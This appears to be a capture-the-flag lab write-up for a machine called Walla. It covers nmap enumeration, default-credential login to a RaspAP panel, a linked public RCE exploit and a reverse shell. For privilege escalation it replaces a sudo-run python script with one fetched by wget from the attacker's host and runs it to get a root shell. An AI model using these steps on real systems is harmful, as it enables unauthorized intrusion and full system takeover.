# Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Walla]
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.171.97
Not shown: 60232 closed tcp ports (conn-refused), 5296 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown

┌──(aaron㉿aaron)-[~/Desktop/pg/Walla]
└─$ sudo nmap -p22,23,25,53,422,8091,42042 -sT -A 192.168.171.97 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 10:12 EDT
Nmap scan report for 192.168.171.97
Host is up (0.34s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 3.5 (87%), Linux 3.7 (87%), Linux 4.2 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   342.73 ms 192.168.45.1
2   342.56 ms 192.168.45.254
3   343.79 ms 192.168.251.1
4   343.90 ms 192.168.171.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.95 seconds
```

# Port Enumeration

## 25

For Port 25 we don't have useful creds. So can't do any next step.




## 8091

For port 8091, the http server is `lighttpd`, but `lighttpd` don't have default creds. Across `nmap` we know the Basic realm is `RaspAP`, so check the `RaspAP` default creds.



Use this creds we can login to port 8091.



Check the version of `RaspAP`, that's v2.5, search on google for `RaspAP 2.5 exploit`


The first one is a RCE exploit. Use this [exploit](https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py)



Then get reverse shell from `RaspAP`.



# PE

## Basic Information



## Active Ports




## sudo -l



## Users




## Use SUID to PE

```bash
www-data@walla:/home/walter$ mv wifi_reset.py wifi_reset.bak
# That's means we can mv/cp the file
www-data@walla:/home/walter$ ls
local.txt  wifi_reset.bak
www-data@walla:/home/walter$ ls
local.txt  wifi_reset.bak
www-data@walla:/home/walter$ wget 192.168.45.224/wifi_reset.py
wget 192.168.45.224/wifi_reset.py
--2023-08-16 10:42:11--  http://192.168.45.224/wifi_reset.py
Connecting to 192.168.45.224:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1047 (1.0K) [text/x-python]
Saving to: ‘wifi_reset.py’
wifi_reset.py       100%[===================>]   1.02K  --.-KB/s    in 0s      
2023-08-16 10:42:11 (2.06 MB/s) - ‘wifi_reset.py’ saved [1047/1047]

www-data@walla:/home/walter$ /usr/bin/python /home/walter/wifi_reset.py

```

Use python to reverse shell.



Then get root reverse shell.

